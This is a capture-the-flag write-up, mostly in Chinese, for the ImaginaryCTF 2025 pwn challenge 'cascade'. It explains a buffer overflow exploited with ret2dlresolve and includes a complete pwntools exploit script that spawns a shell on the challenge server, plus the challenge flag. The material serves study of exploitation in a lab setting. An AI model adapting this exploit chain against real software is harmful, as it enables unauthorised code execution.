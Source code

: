 ```yaml
---
title: "Write-ups: ImaginaryCTF 2025"
published: 2025-09-19
updated: 2025-09-19
description: "Write-ups for ImaginaryCTF 2025 pwn aspect."
tags: ["Pwn", "Write-ups"]
category: "Write-ups"
draft: false
---
```


# cascade

## Information

- Category: Pwn
- Difficulty: Medium
- Points: 292

## Description

> just a buffer overflow, right?

## Write-up

64 字节的缓冲区，512 字节的输入，Partial RELRO，没 gadgets，没 libc……当时想到的就是打 `ret2dlresolve`，解析 system，最后虽然我成功带着参数进入了 system，并且执行 system 的过程中没有出现问题，但是却并没有得到 shell 。很费解，只记得当时调试到凌晨三点都没找到问题，可惜我已经把之前的 exp 删掉了……

后来看了下官方的 wp，也是 ret2dlresolve，并且和我一样都是用 pwntools 直接生成的 fake structures，甚至都是解析的 system，唯一的区别是我当时直接把 system 的参数也写到结构体里面了，当时也没搞明白是为啥，明明没有 rdi gadget 的，但它却可以自动设置一个参数，我也没用 rop 功能，就是手动调用。而官方 wp 是手动设置的参数。当时我并没有找到手动设置参数的方法……复现的时候才发现，原来那么简单。

其实我复现官方 wp 的时候，发现本地也还是打不通，虽然也成功执行了 system，不禁让我怀疑我当时是不是只要远程测试一下说不定就通了，我艹哦，感觉损失了一个亿，好难过……

ropper 发现，程序并没有控制参数的 gadgets，所以我们就算能解析出来 system 的地址也没用，还得想办法给它传参。

这好办，注意到 main 函数调用了两个 `setvbuf`，它们第一个参数都来自 bss 段：

```asm ins={10-21}
; Attributes: bp-based frame

; int __fastcall main(int argc, const char **argv, const char **envp)
public main
main proc near
; __unwind {
endbr64
push    rbp
mov     rbp, rsp
mov     rax, cs:stdout@GLIBC_2_2_5
mov     ecx, 0          ; n
mov     edx, 2          ; modes
mov     esi, 0          ; buf
mov     rdi, rax        ; stream
call    _setvbuf
mov     rax, cs:stdin@GLIBC_2_2_5
mov     ecx, 0          ; n
mov     edx, 2          ; modes
mov     esi, 0          ; buf
mov     rdi, rax        ; stream
call    _setvbuf
mov     eax, 0
call    vuln
mov     eax, 0
pop     rbp
retn
; } // starts at 40117B
main endp

_text ends
```

那我们只要能控制 bss 中 `stdin` 或者 `stdout` 的值就能控制 rdi 了。好巧不巧，没开 PIE，~这就是隐藏的人和产生的地利。~

接着思考应该让 ret2dlresolve 修改哪个 got 项呢？观察下面的 main 函数反编译代码，我们看到最开始调用了两个 setvbuf 。结合上面设置参数的方法，如果我们让 dlresolve 将解析出来的 system 地址写入 setvbuf 的 got 项，那我们只要返回到 main 就可以再次调用 setvbuf，而调用 setvbuf 会先设置参数，然后调用 system 。

策略就是这样，还是很简单的。

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 2, 0);
  vuln();
  return 0;
}
```

:::important
下面这个 payload 需要注意的地方是，`data_addr` 的地址我们可以在将 dlresolve payload 读进去之后动调确定，然后第二次 read 读入的 RBP 一定要设置的大点，不然后面在执行 dlresolve 解析的时候那些函数的 prologues 会将 RSP 缩小到只读地址，就会导致非法访问从而 abort 。
:::

~_PS: 有关这道题其实还有一个小故事（为期差不多三周的小故事还能算小嘛？我不知道……），算了太晚了，不写了……总之，让我越发意识到自己眼睛问题的严重程度 :sob:_~

## Exploit

```python
#!/usr/bin/env python3

from pwn import (
    ROP,
    Ret2dlresolvePayload,
    args,
    context,
    flat,
    process,
    raw_input,
    remote,
)


FILE = "./vuln"
HOST, PORT = "cascade.chal.imaginaryctf.org", 1337

context(log_level="debug", binary=FILE, terminal="kitty")

elf = context.binary
rop = ROP(elf)


def launch():
    global target
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)


def main():
    launch()

    read = 0x401162
    dlresolve = Ret2dlresolvePayload(
        elf=elf,
        symbol="system",
        args=[],
        data_addr=0x404070,
        resolution_addr=elf.got["setvbuf"],
    )
    payload = flat(
        b"A" * 64,
        elf.sym["stdout"] + 0x40,
        read,
    ).ljust(0x200 - 1, b"\x00")

    raw_input("DEBUG")
    target.sendline(payload)

    rop.ret2dlresolve(dlresolve)
    rop.raw(rop.ret)
    rop.main()
    target.success(rop.dump())

    payload = flat(
        elf.sym["stdout"] + 0x8,  # /bin/sh address
        b"/bin/sh\x00",
        b"A" * 0x30,
        0x404F40,  # rbp
        read,
        dlresolve.payload,
    ).ljust(0x200 - 1, b"\x00")
    target.sendline(payload)

    payload = flat(
        b"A" * 0x40,
        b"B" * 0x8,  # rbp
        rop.chain(),
    ).ljust(0x200 - 1, b"\x00")
    target.sendline(payload)

    target.interactive()


if __name__ == "__main__":
    main()
```

## Flag

:spoiler[`ictf{i_h0pe_y0u_didnt_use_ret2dl_94b51175}`]
